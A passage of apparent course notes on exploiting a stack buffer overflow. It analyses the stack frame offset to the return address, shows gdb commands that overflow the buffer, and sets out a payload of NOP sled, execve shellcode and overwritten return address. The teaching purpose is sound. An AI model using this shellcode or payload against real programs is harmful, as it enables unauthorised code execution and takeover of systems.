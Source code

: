 ## 6.4. Analysis of stack frame

536 bytes (0x218) are taken from stack, buffer begins at offset 16 from start of stack frame, so there are 520 bytes up to the return address (which was saved on the stack prior to the subroutine call). So the data we send after 520 arbitryary bytes overwrites the subroutines return address.

So this writes exactly 520 bytes, which is OK:

```sh
(gdb) run $(python3 -c 'import sys;sys.stdout.buffer.write(b"\x41" \* 519 + b"\0")')
```

And this is just one byte to much:

```sh
(gdb) run $(python3 -c 'import sys;sys.stdout.buffer.write(b"\x41" \* 519 + b"\01\0")')
```

## 6.5. Exploit explained

see [exploit code](114-exploit)

For more details on the shell code itself, see [lecture notes matejka](http://web275.142.hosttech.eu/htl/ITSI_5/01_buffer_overflow/03_shellcode.html).

```python
b"\x90" * (520-32-64) +                        Padding with NOP (0x90) to reach the return address
b"\x48\x31\xd2\x48\x31\xf6\x48\xb8\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xd8\x50\x48\x89\xe7\x48\x31\xc0\x48\x83\xc0\x3b\x0f\x05" +   Shellcode
b"\x41" * 64 +                                  Padding to fill the buffer in the vulnerable program
b"\xfc\xdb\xff\xff\xff\x7f\x00\x00" +          Return address pointing to the beginning of the NOP sled
b"\x00"                                         Null terminator for potential string operations
```

_Our manipulated return address will point right into the nop sled, so it does not matter if the stack address shifts around by a few bytes._

